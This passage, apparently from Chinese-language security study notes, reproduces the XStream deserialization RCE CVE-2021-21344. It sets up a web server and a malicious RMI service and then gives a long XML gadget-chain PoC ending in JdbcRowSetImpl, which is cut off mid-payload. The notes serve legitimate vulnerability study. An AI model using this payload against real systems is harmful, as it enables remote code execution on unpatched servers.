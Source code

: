 ![image-20220518170338435](images/52.png)

这里判断tempFile只要部位空则删除，否则就打印文件不存在

# CVE-2021-21344远程代码执行漏洞

## 漏洞复现

起一个web服务

![image-20220518172336194](images/53.png)

起一个恶意的rmi

![image-20220518172349275](images/54.png)

POC

```xml
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
                <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
                    <packet>
                        <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
                            <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                                    <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                                        <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                                            <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                                            <uriProperties/>
                                            <attributeProperties/>
                                            <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                                                <getter>
                                                    <class>com.sun.rowset.JdbcRowSetImpl</class>
                                                    <name>getDatabaseMetaData</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName/>
                                        <context>
                                            <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                                                <outer-class reference='../..'/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
```